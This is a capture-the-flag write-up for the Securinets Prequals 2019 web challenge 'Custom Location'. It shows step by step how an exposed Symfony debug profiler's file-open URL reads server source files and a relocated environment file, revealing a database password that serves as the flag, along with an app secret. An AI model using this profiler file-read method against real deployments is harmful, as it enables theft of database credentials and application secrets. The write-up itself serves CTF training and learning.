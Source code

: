 # Securinets Prequals CTF 2019 – Custom Location

* **Category:** Web
* **Points:** 964

## Challenge

> Try to find out the database credentials.
> 
> The author changed the location of some files to protect the web application from script kiddies.
> 
> https://web0.ctfsecurinets.com/
>
> Author:TheEmperors

## Solution

Trying to reach pages (e.g. `https://web0.ctfsecurinets.com/foo.php`) will trigger Symfony error pages. From these pages it is possible to access to the Symfony profiler interface.

Analyzing one of the results (`https://web0.ctfsecurinets.com/_profiler/open?file=public/index.php&line=27#line27`)

```php
<?php
use App\Kernel;
use Symfony\Component\Debug\Debug;
use Symfony\Component\HttpFoundation\Request;
require dirname(__DIR__).'/config/bootstrap.php';
if ($_SERVER['APP_DEBUG']) {
    umask(0000);
    Debug::enable();
}
if ($trustedProxies = $_SERVER['TRUSTED_PROXIES'] ?? $_ENV['TRUSTED_PROXIES'] ?? false) {
    Request::setTrustedProxies(explode(',', $trustedProxies), Request::HEADER_X_FORWARDED_ALL ^ Request::HEADER_X_FORWARDED_HOST);
}
Request::setTrustedProxies(['127.0.0.1/8','::1', '172.17.0.0/16','192.0.0.1', '10.0.0.0/8'], Request::HEADER_X_FORWARDED_ALL);
if ($trustedHosts = $_SERVER['TRUSTED_HOSTS'] ?? $_ENV['TRUSTED_HOSTS'] ?? false) {
    Request::setTrustedHosts([$trustedHosts]);
}
$kernel = new Kernel($_SERVER['APP_ENV'], (bool) $_SERVER['APP_DEBUG']);
$request = Request::createFromGlobals();
$response = $kernel->handle($request);
$response->send();
$kernel->terminate($request, $response);
```

an interesting file can be found: `require dirname(__DIR__).'/config/bootstrap.php';`.

Connecting to it (` https://web0.ctfsecurinets.com/_profiler/open?file=config/bootstrap.php`), you can find the complete path to the environment file.

```php
<?php
use Symfony\Component\Dotenv\Dotenv;
require dirname(__DIR__).'/vendor/autoload.php';
// Load cached env vars if the .env.local.php file exists
// Run "composer dump-env prod" to create it (requires symfony/flex >=1.2)
if (is_array($env = @include dirname(__DIR__).'/.env.local.php')) {
    $_SERVER += $env;
    $_ENV += $env;
} elseif (!class_exists(Dotenv::class)) {
    throw new RuntimeException('Please run "composer require symfony/dotenv" to load the ".env" files configuring the application.');
} else {
    // load all the .env files
    (new Dotenv())->loadEnv(dirname(__DIR__).'/secret_ctf_location/env');
}
$_SERVER['APP_ENV'] = $_ENV['APP_ENV'] = ($_SERVER['APP_ENV'] ?? $_ENV['APP_ENV'] ?? null) ?: 'dev';
$_SERVER['APP_DEBUG'] = $_SERVER['APP_DEBUG'] ?? $_ENV['APP_DEBUG'] ?? 'prod' !== $_SERVER['APP_ENV'];
$_SERVER['APP_DEBUG'] = $_ENV['APP_DEBUG'] = (int) $_SERVER['APP_DEBUG'] || filter_var($_SERVER['APP_DEBUG'], FILTER_VALIDATE_BOOLEAN) ? '1' : '0';
```

You can print the content of the environment file with `https://web0.ctfsecurinets.com/_profiler/open?file=/secret_ctf_location/env`.

Into the environment file you can find the flag.

```
# In all environments, the following files are loaded if they exist,
# the later taking precedence over the former:
#
#  * .env                contains default values for the environment variables needed by the app
#  * .env.local          uncommitted file with local overrides
#  * .env.$APP_ENV       committed environment-specific defaults
#  * .env.$APP_ENV.local uncommitted environment-specific overrides
#
# Real environment variables win over .env files.
#
# DO NOT DEFINE PRODUCTION SECRETS IN THIS FILE NOR IN ANY OTHER COMMITTED FILES.
#
# Run "composer dump-env prod" to compile .env files for production use (requires symfony/flex >=1.2).
# https://symfony.com/doc/current/best_practices/configuration.html#infrastructure-related-configuration
###> symfony/framework-bundle ###
APP_ENV=dev
APP_SECRET=44705a2f4fc85d70df5403ac8c7649fd
#TRUSTED_PROXIES=127.0.0.1,127.0.0.2
#TRUSTED_HOSTS='^localhost|example\.com$'
###< symfony/framework-bundle ###
###> doctrine/doctrine-bundle ###
# Format described at http://docs.doctrine-project.org/projects/doctrine-dbal/en/latest/reference/configuration.html#connecting-using-a-url
# For an SQLite database, use: "sqlite:///%kernel.project_dir%/var/data.db"
# Configure your db driver and server_version in config/packages/doctrine.yaml
DATABASE_URL=mysql://symfony_admin:Securinets{D4taB4se_P4sSw0Rd_My5qL_St0L3n}@127.0.0.1:3306/symfony_task
###< doctrine/doctrine-bundle ###
###> symfony/swiftmailer-bundle ###
# For Gmail as a transport, use: "gmail://username:password@localhost"
# For a generic SMTP server, use: "smtp://localhost:25?encryption=&auth_mode="
# Delivery is disabled by default via "null://localhost"
MAILER_URL=null://localhost
###< symfony/swiftmailer-bundle ###
```

The flag is the following.

```
Securinets{D4taB4se_P4sSw0Rd_My5qL_St0L3n}
```
